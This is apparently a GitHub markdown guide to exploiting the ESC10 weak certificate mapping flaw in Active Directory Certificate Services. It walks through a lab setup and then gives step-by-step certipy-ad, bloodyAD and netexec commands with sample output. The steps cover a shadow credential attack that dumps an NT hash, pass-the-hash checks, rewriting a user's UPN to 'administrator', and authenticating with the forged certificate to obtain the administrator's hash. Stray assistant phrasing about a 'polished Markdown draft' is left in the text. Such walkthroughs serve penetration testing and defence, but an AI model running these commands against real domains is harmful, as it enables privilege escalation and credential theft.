


# 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 10 (ESC10) Abuse Guide


# What is ESC10?

ESC10 is a security issue related to **Active Directory Certificate Services (AD CS)** where Windows' **Schannel** (used for TLS/SSL) improperly maps certificates to user accounts.

If the server is configured to use **UPN (User Principal Name) based certificate mapping** insecurely, an attacker who can change a user’s UPN can:

- Get a certificate for that user with a fake UPN matching a privileged account
- Authenticate as the privileged account using the certificate
- Bypass normal authentication checks and gain access

This attack relies on weak AD permissions allowing UPN changes and misconfigured Schannel certificate mapping.

ESC10 is important because it can let attackers impersonate high-privilege accounts through certificate-based authentication.

Here’s a polished Markdown draft for your lab setup section with clear instructions and formatting:

## Lab Setup

### Step 1: Update Registry to Disable Certificate Mapping Methods

On the target Windows machine (usually the Domain Controller), open **Registry Editor** and navigate to:

```

HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc

````

Set the **`CertificateMappingMethods`** DWORD value to `0` to disable unwanted certificate mapping methods.



---

### Step 2: Create Test Users in Active Directory

Using PowerShell, create two AD user accounts:

```powershell
New-ADUser -Name "john" -SamAccountName "john" -UserPrincipalName "john@furious.local" -AccountPassword (ConvertTo-SecureString "complex1@" -AsPlainText -Force) -Enabled $true

New-ADUser -Name "martin" -SamAccountName "martin" -UserPrincipalName "martin@furious.local" -AccountPassword (ConvertTo-SecureString "complex2@" -AsPlainText -Force) -Enabled $true
````

---

### Step 3: Grant Write Access for `john` over `martin`

Assign **write permissions** on `martin`’s account to user `john`. This permission allows `john` to modify attributes like `userPrincipalName` on `martin`’s object.



---

### Step 4: Verify Write Permissions with bloodyAD

On your Kali machine, run `bloodyAD` to list objects that `john` can write to:

```bash
bloodyAD --host $IP -d furious.local -u 'john' -p 'complex1@' get writable
```

Sample output:

```
distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=furious,DC=local
permission: WRITE

distinguishedName: CN=john,CN=Users,DC=furious,DC=local
permission: WRITE

distinguishedName: CN=martin,CN=Users,DC=furious,DC=local
permission: WRITE
```

This confirms `john` has write access over `martin`’s account.

---
## Enumeration and Identification

- **Certipy does not directly detect ESC10** by querying the Schannel `CertificateMappingMethods` registry key because it requires privileged access (e.g., local admin) on Domain Controllers or target servers.

- **Identifying potentially vulnerable servers** involves:
  - Manually or via scripts checking the registry key:  
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\CertificateMappingMethods
    ```
    on Domain Controllers or other servers using Schannel (like LDAPS).
  - If the DWORD value includes the bit flag `0x4` (e.g., `0x4`, `0xC`, `0x1C`, `0x1F`), the server may be vulnerable to ESC10.


Here's a clean, well-structured Markdown section for your **Attack** workflow with commands and explanations:


# Exploiting ESC10 Misconfiguration in Active Directory Certificate Services (ADCS)

### Step 1: Obtain Credentials for `martin` Using Shadow Credential Attack

First, use `certipy-ad` to perform a shadow credential attack from the low-privileged user `john` on the account `martin`:

```bash
certipy-ad shadow auto -u john -p complex1@ -account martin -dc-ip $IP
````

Sample output:

```
[*] Targeting user 'martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '19d8246b-330c-5bcb-aafd-82458827425b'
[*] Adding Key Credential with device ID '...' to 'martin'
[*] Successfully added Key Credential
[*] Authenticating as 'martin' with the certificate
[*] Got TGT
[*] Trying to retrieve NT hash for 'martin'
[*] NT hash for 'martin': f26db8968d8e6c0790978b2b30b262e5
```

---

### Step 2: Verify Credentials by Connecting with `martin`

Use `netexec` to check if the obtained hash works:

```bash
netexec smb $IP -u martin -H f26db8968d8e6c0790978b2b30b262e5
```

If successful, you'll see something like:

```
[+] furious.local\martin:f26db8968d8e6c0790978b2b30b262e5
```

---

### Step 3: Confirm Account Details of `martin`

Check current attributes of `martin` using Certipy:

```bash
certipy-ad account -u 'john' -p 'complex1@' -dc-ip $IP -user 'martin' read
```

This returns important details like `userPrincipalName`, `sAMAccountName`, etc.

---

### Step 4: Change `martin`'s UPN to `administrator`

Update the `userPrincipalName` attribute of `martin` to `administrator`:

```bash
certipy-ad account -u 'john' -p 'complex1@' -dc-ip $IP -upn administrator -user 'martin' update
```

---

### Step 5: Request a Certificate with the Manipulated UPN

Using `martin`'s credentials, request a certificate from the CA with the new UPN:

```bash
certipy-ad req -u martin -hashes f26db8968d8e6c0790978b2b30b262e5 -ca furious-DC01-FURIOUS5-CA -template user -dc-ip $IP
```

Output:

```
[*] Got certificate with UPN 'administrator'
[*] Saving certificate and private key to 'administrator.pfx'
```

---

### Step 6: Restore `martin`'s Original UPN

After requesting the certificate, revert the UPN back to the original value:

```bash
certipy-ad account -u 'john' -p 'complex1@' -dc-ip $IP -upn 'martin' -user 'martin' update
```

---

### Step 7: Authenticate as `administrator` Using the Certificate

Use the certificate to authenticate and get TGT as `administrator`:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip $IP -domain furious.local
```

Output:

```
[*] Using principal: 'administrator@furious.local'
[*] Got TGT
[*] Got hash for 'administrator@furious.local': aad3b435b51404eeaad3b435b51404ee:e6c278088a8bee2149534efa88d188f1
```


Now have valid Kerberos credentials for the `administrator` account, completing the ESC10 privilege escalation.


## References:

- [Certipy Wiki: Privilege Escalation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)

- [Hacking Articles: ADCS ESC10 - Weak Certificate Mapping](https://www.hackingarticles.in/adcs-esc10-weak-certificate-mapping/)

